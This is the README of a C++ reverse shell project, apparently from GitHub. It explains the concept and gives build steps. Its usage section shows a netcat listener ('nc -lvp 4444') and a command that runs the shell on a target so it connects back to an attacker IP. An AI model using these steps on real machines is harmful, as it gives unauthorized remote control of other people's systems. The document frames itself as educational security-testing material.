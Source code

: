 # Reverse Shell in C++

Welcome to the repository for my Reverse Shell project written in C++. This project demonstrates how to create a reverse shell, a powerful tool for network security testing and educational purposes.

## What is a Reverse Shell?

A reverse shell is a type of shell where the target machine connects back to the attacker's machine. This can be useful in scenarios where the target machine is behind a firewall or NAT and cannot accept incoming connections. Instead, it initiates an outgoing connection to the attacker's machine, allowing the attacker to gain control.
 
## Features

- **Lightweight and Efficient**: The reverse shell is designed to be lightweight and efficient, ensuring minimal resource usage on the target machine.
- **Cross-Platform**: Written in C++, it can be compiled and run on various platforms including Windows, Linux, and macOS.
- **Encrypted Communication**: Ensures that the data transferred between the attacker and the target machine is encrypted.

## How to Build

1. **Clone the Repository**:
    ```bash
   git clone https://github.com/yourusername/reverse-shell-cpp.git
   cd reverse-shell-cpp
    ```
Install Dependencies:
Ensure you have a C++ compiler installed (like g++, clang, or MSVC). For example, on Ubuntu, you can install g++ with:

```bash

sudo apt-get install g++

Compile the Code:

g++ -o reverse_shell reverse_shell.cpp
```
For Windows, you might use:

```bash

    cl /EHsc reverse_shell.cpp
```
- How to Use

    Start a Listener on the Attacker Machine:
    You can use netcat to start a listener. For example:

    ``` bash
    nc -lvp 4444
   ```

Run the Reverse Shell on the Target Machine:
Ensure the target machine can reach the attacker's IP and port. Run the compiled reverse_shell executable:

```bash

./reverse_shell <attacker_ip> <port>
```
For example:

```bash

    ./reverse_shell 192.168.1.10 4444
```

  Establish Connection:
  Once the reverse shell is executed on the target machine, it will connect back to the attacker's machine, providing a command line interface to the attacker.

## Disclaimer

This tool is intended for educational purposes only. Unauthorized use of this tool is illegal and unethical. Always obtain proper authorization before using it in any environment.
